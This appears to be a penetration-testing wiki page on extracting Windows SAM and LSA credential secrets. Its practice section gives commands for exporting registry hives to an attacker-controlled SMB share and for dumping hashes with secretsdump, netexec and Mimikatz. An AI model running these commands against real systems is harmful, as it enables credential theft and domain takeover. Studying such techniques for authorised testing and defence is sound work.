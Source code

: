 ```yaml
---
description: MITRE ATT&CK™ Sub-techniques T1003.002, T1003.004 and T1003.005
authors: ShutdownRepo, mpgn, p0dalirius, sckdev
category: ad
---
```


# SAM & LSA secrets

## Theory

In Windows environments, passwords are stored in a hashed format in registry hives like SAM (Security Account Manager) and SECURITY.

| Hive | Details | Format or credential material |
| -------- | -------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| SAM | stores locally cached credentials (referred to as SAM secrets) | LM or NT hashes |
| SECURITY | stores domain cached credentials (referred to as LSA secrets) | Plaintext passwords, LM or NT hashes, Kerberos keys (DES, AES), Domain Cached Credentials (DCC1 and DCC2), Security Questions (`L$`*`SQSA`*`<SID>`),  |
| SYSTEM | contains enough info to decrypt SAM secrets and LSA secrets | N/A |

SAM and LSA secrets can be dumped either locally or remotely from the mounted registry hives. These secrets can also be extracted offline from the exported hives. Once the secrets are extracted, they can be used for various attacks, depending on the credential format.

| Credential material | Subsequent attacks |
| ---------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Plaintext passwords | [credential spraying](../bruteforcing/spraying), [stuffing](../bruteforcing/stuffing.md), [shuffling](../shuffling.md) or [silver tickets](../../kerberos/forged-tickets/) |
| LM and NT hashes | [credential spraying](../bruteforcing/spraying), [stuffing](../bruteforcing/stuffing.md), [shuffling](../shuffling.md), [cracking](../cracking.md), [pass-the-hash](../../ntlm/pth.md) |
| Kerberos keys (RC4, i.e. == NT hash) | [credential cracking](../cracking.md), [overpass-the-hash](../../kerberos/ptk.md) or [silver tickets](../../kerberos/forged-tickets/) |
| Kerberos keys (DES, AES) | [credential cracking](../cracking.md), [pass-the-key](../../kerberos/ptk.md) or [silver tickets](../../kerberos/forged-tickets/) |
| Domain Cached Credentials (DCC1 or DCC2) | [credential cracking](../cracking.md) |

## Practice

### Exfiltration

::: tabs

=== UNIX-like

[Impacket](https://github.com/SecureAuthCorp/impacket)'s reg.py (Python) script can also be used to do the same operation remotely for a UNIX-like machine. For instance, this can be used to easily escalate from a [Backup Operator](../../builtins/security-groups) member to a Domain Admin by dumping a Domain Controller's secrets and use them for a [DCSync](dcsync.md).

> [!TIP]
> The attacker can start an SMB server, and indicate an UNC path including his IP address so that the hives get exported directly to his server.

```bash
# start an SMB share
smbserver.py -smb2support "someshare" "./"

# save each hive manually
reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SAM' -o '\\ATTACKER_IPs\someshare'
reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SYSTEM' -o '\\ATTACKER_IP\someshare'
reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SECURITY' -o '\\ATTACKER_IP\someshare'

# backup all SAM, SYSTEM and SECURITY hives at once
reg.py "domain"/"user":"password"@"target" backup -o '\\ATTACKER_IP\someshare'
```


=== Live Windows

When the Windows operating system is running, the hives are in use and mounted. The command-line tool named `reg` can be used to export them.

```bash
reg save HKLM\SAM "C:\Windows\Temp\sam.save"
reg save HKLM\SECURITY "C:\Windows\Temp\security.save"
reg save HKLM\SYSTEM "C:\Windows\Temp\system.save"
```

This operation can be conducted remotely with [BackupOperatoToDA](https://github.com/mpgn/BackupOperatorToDA) (C++).

> [!TIP]
> The attacker can start an SMB server, and indicate an UNC path including his IP address so that the hives get exported directly to his server.

```bash
BackupOperatorToDA.exe -d "domain" -u "user" -p "password" -t "target" -o "\\ATTACKER_IP\someshare"
```

> [!TIP]
> Alternatively, from a live Windows machine, the hive files can also be exfiltrated using [Volume Shadow Copy](ntds.md#volume-shadow-copy-vssadmin) like demonstrated for an NTDS export.


=== Down Windows

When Windows is not running, the hives are not mounted and they can be copied just like any other file. This can be operated when mounting the hard drive from another OS (e.g. when booting the computer on another operating system). The hive files can be found at the following locations.

```bash
\system32\config\sam
\system32\config\security
\system32\config\system
```

:::


### Secrets dump

Here are some examples and tools that can be used for local/remote/offline dumping.

::: tabs

=== secretsdump

[Impacket](https://github.com/SecureAuthCorp/impacket)'s [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) (Python) can be used to dump SAM and LSA secrets, either remotely, or from local files. For remote dumping, several authentication methods can be used like [pass-the-hash](../../ntlm/pth.md) (LM/NTLM), or [pass-the-ticket](../../kerberos/ptt.md) (Kerberos).

```bash
# Remote dumping of SAM & LSA secrets
secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET'

# Remote dumping of SAM & LSA secrets (pass-the-hash)
secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'

# Remote dumping of SAM & LSA secrets (pass-the-ticket)
secretsdump.py -k 'DOMAIN/USER@TARGET'

# Offline dumping of LSA secrets from exported hives
secretsdump.py -security '/path/to/security.save' -system '/path/to/system.save' LOCAL

# Offline dumping of SAM secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -system '/path/to/system.save' LOCAL

# Offline dumping of SAM & LSA secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -security '/path/to/security.save' -system '/path/to/system.save' LOCAL
```


=== netexec

[NetExec](https://github.com/Pennyw0rth/NetExec) (Python) can be used to remotely dump SAM and LSA secrets, on multiple hosts. It offers several authentication methods like [pass-the-hash](../../ntlm/pth.md) (NTLM), or [pass-the-ticket](../../kerberos/ptt.md) (Kerberos)

```bash
# Remote dumping of SAM/LSA secrets
netexec smb $TARGETS -d $DOMAIN -u $USER -p $PASSWORD --sam/--lsa

# Remote dumping of SAM/LSA secrets (local user authentication)
netexec smb $TARGETS --local-auth -u $USER -p $PASSWORD --sam/--lsa

# Remote dumping of SAM/LSA secrets (pass-the-hash)
netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --sam/--lsa

# Remote dumping of SAM/LSA secrets (pass-the-ticket)
netexec smb $TARGETS --kerberos --sam/--lsa
```


=== Mimikatz

[Mimikatz](https://github.com/gentilkiwi/mimikatz) can be used locally with [`lsadump::sam`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/sam) and [`lsadump::secrets`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/secrets) to extract credentials from `SAM` and `SECURITY` registry hives (and `SYSTEM` for the encryption keys), or offline with hive dumps.

```bash
# Local dumping of SAM secrets on the target
lsadump::sam

# Offline dumping of SAM secrets from exported hives
lsadump::sam /sam:'C:\path\to\sam.save' /system:'C:\path\to\system.save'

# Local dumping of LSA secrets on the target
lsadump::secrets

# Offline dumping LSA secrets from exported hives
lsadump::secrets /security:'C:\path\to\security.save' /system:'C:\path\to\system.save'
```

:::

> [!TIP]
> Secretsdump (Impacket) and NetExec both extract security questions, if any, from the LSA. They are json formatted, UTF-16-LE encoded, and hex encoded on top of that.

## Resources

[http://moyix.blogspot.com/2008/02/syskey-and-sam.html](http://moyix.blogspot.com/2008/02/syskey-and-sam.html)

[http://moyix.blogspot.com/2008/02/decrypting-lsa-secrets.html](http://moyix.blogspot.com/2008/02/decrypting-lsa-secrets.html)

[https://medium.com/@benichmt1/secretsdump-demystified-bfd0f933dd9b](https://medium.com/@benichmt1/secretsdump-demystified-bfd0f933dd9b)

[https://webstersprodigy.net/2014/02/03/mscash-hash-primer-for-pentesters/](https://webstersprodigy.net/2014/02/03/mscash-hash-primer-for-pentesters/)